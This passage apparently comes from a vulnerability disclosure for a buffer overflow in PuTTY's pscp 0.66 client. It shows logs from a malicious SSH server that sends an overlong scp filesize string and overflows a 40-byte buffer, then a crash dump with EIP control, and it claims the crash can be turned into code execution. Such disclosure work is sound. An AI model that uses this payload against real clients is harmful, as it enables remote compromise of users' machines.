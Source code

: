 		DEBUG    using kex diffie-hellman-group14-sha1; server key type ssh-rsa; cipher: local aes256-ctr, remote aes256-ctr; mac: local hmac-sha1, remote hmac-sha1; compression: local none, remote none
		DEBUG    Switch to new keys ...
		DEBUG    Auth request (type=none) service=ssh-connection, username=root
		INFO     Auth rejected (none).
		INFO     REQUEST: allowed auths: gssapi-keyex,gssapi-with-mic,password,publickey
		DEBUG    Auth request (type=gssapi-with-mic) service=ssh-connection, username=root
		INFO     Auth rejected (gssapi-with-mic).
		INFO     REQUEST: allowed auths: gssapi-keyex,gssapi-with-mic,password,publickey
		DEBUG    Auth request (type=password) service=ssh-connection, username=root
		INFO     REQUEST: CHECK_AUTH_PASS u'root' xxxxx
		INFO     * SUCCESS
		INFO     Auth granted (password).
		...
	
4. `pscp` tries to retrieve file. Server responds with fake timestamps, permissions and an overly long filesize string overflowing the 40byte client buffer.
	
		...
		INFO     REQUEST: CHAN session 0
		DEBUG    [chan 0] Max packet in: 32768 bytes
		DEBUG    [chan 0] Max packet out: 16384 bytes
		DEBUG    Secsh channel 0 (session) opened.
		DEBUG    [chan 0] Unhandled channel request "simple@putty.projects.tartarus.org"
		INFO     REQUEST: EXEC <paramiko.Channel 0 (open) window=2147483647 -> <paramiko.Transport at 0x2411750L (cipher aes256-ctr, 256 bits) (active; 1 open channel(s))>> scp -f /a
		INFO     Authenticated!
		INFO     wait for event
		INFO     wait for event
		WARNING  Oh, hello putty/pscp PuTTY_Release_0.66, nice to meet you!
		INFO     send (time): 'T1444608444 0 1444608444 0\n'
		INFO     send (perm): 'C755 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \n'
		INFO     boom!
		ERROR    Peer did not ask for a shell within 10 seconds.
		DEBUG    EOF in transport thread
		...

5. `pscp` crashes due to RET overwrite with EIP control (`\x41`==`A`). Can be turned into RCE (see annotation, EIP control)

	
		FAULTING_IP: 
		unknown!noop+0
		41414141 ??              ???
		
		EXCEPTION_RECORD:  ffffffffffffffff -- (.exr 0xffffffffffffffff)
		ExceptionAddress: 0000000041414141
		   ExceptionCode: c0000005 (Access violation)
		  ExceptionFlags: 00000000
		NumberParameters: 2
		   Parameter[0]: 0000000000000000
		   Parameter[1]: 0000000041414141
		Attempt to read from address 0000000041414141
		